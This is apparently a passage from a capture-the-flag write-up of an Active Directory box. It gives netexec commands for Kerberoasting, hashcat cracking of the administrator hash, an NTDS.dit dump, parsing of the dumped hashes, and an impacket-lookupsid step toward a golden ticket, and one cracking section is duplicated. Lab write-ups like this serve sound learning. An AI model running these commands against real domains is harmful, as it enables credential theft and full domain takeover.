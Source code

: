 -   **I try kerberoasting with netexec**:
    -   `netexec ldap $box -u $user -p $pass --kerberoasting kerb.out`
    -   I get a hit for the administrator:
        -   {{< figure src="/ox-hugo/2024-11-01-183154_.png" >}}
    -   +Note+: It's good practice to try Kerberoasting when we have creds as it can provide an easy win.


### Cracking the Admin Hash: {#cracking-the-admin-hash}

-   `hashcat -m 13100 kerb.out ~/Wordlists/rockyou.txt`
-   {{< figure src="/ox-hugo/2024-11-02-165034_.png" >}}
-   We crack it:
    -   {{< figure src="/ox-hugo/2024-11-02-165100_.png" >}}

-   **I check the cred using netexec &amp; it works**:
    -   {{< figure src="/ox-hugo/2024-11-02-165348_.png" >}}


## 4. Ownership: {#4-dot-ownership}


### Cracking the Admin Hash to reveal the clear-text password {#cracking-the-admin-hash-to-reveal-the-clear-text-password}

-   `hashcat -m 13100 kerb.out ~/Wordlists/rockyou.txt`
-   {{< figure src="/ox-hugo/2024-11-02-165034_.png" >}}
-   We crack it and :
    -   {{< figure src="/ox-hugo/2024-11-02-165100_.png" >}}

-   **I check the cred using netexec &amp; it works**:
    -   {{< figure src="/ox-hugo/2024-11-02-165348_.png" >}}


## 5. Persistence: {#5-dot-persistence}


### Dumping NTDS.dit/DC-SYNC attack: {#dumping-ntds-dot-dit-dc-sync-attack}

-   **Perform DC-Sync attack using netexec**:
    -   `netexec smb $box -u $user -p $pass -M ntdsutil`
    -   {{< figure src="/ox-hugo/2024-11-02-170306_.png" >}}

-   **Extract all hashes from netexec**
    -   `cat /home/kali/.nxc/logs/*.ntds | cut -d ':' -f1,2,4 --output-delimiter=' ' | awk '{print $3, $2, $1}'`
    -   {{< figure src="/ox-hugo/2024-11-02-171538_.png" >}}


### Creating a Kerberos Golden Ticket: {#creating-a-kerberos-golden-ticket}

-   **Using** `impacket-lookupsid` **to get the Search for the Domain SID**:
    -   `impacket-lookupsid $domain/$user@$machine.$domain -domain-sids`
    -   {{< figure src="/ox-hugo/2024-11-02-170758_.png" >}}
        -   `S-1-5-21-405608879-3187717380-1996298813`
